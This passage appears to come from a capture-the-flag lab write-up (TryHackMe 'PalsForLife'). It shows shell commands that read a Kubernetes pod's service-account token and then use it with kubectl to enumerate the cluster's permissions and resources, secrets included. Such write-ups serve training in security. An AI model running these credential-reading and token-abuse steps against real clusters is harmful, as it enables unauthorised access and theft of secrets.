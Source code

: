 ```
bash-4.4$ ls -lah /run/secrets/kubernetes.io/serviceaccount/
total 4
drwxrwxrwt    3 root     root         140 Sep  3 06:50 .
drwxr-xr-x    3 root     root        4.0K Sep  3 06:51 ..
drwxr-xr-x    2 root     root         100 Sep  3 06:50 ..2022_09_03_06_50_46.766033269
lrwxrwxrwx    1 root     root          31 Sep  3 06:50 ..data -> ..2022_09_03_06_50_46.766033269
lrwxrwxrwx    1 root     root          13 Sep  3 06:50 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root          16 Sep  3 06:50 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root          12 Sep  3 06:50 token -> ..data/token

bash-4.4$ ls -lah /var/run/secrets/kubernetes.io/serviceaccount
total 4
drwxrwxrwt    3 root     root         140 Sep  3 06:50 .
drwxr-xr-x    3 root     root        4.0K Sep  3 06:51 ..
drwxr-xr-x    2 root     root         100 Sep  3 06:50 ..2022_09_03_06_50_46.766033269
lrwxrwxrwx    1 root     root          31 Sep  3 06:50 ..data -> ..2022_09_03_06_50_46.766033269
lrwxrwxrwx    1 root     root          13 Sep  3 06:50 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root          16 Sep  3 06:50 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root          12 Sep  3 06:50 token -> ..data/token
```

contain the files:

- `ca.crt`: It's the ca certificate to check kubernetes communications
- `namespace`: It indicates the current namespace
- `token`: It contains the service token of the current pod

```
bash-4.4$ cat token
{Redacted_Token}
```

Armed with this token, we can use `kutectl` to interact with the machine's kubernetes.

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
```

We can now enumerate kubernetes!

**Get Supported Resources:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify api-resources --namespaced=true 
NAME                        SHORTNAMES   APIVERSION                     NAMESPACED   KIND
[...]
secrets                                  v1                             true         Secret
[...]
```
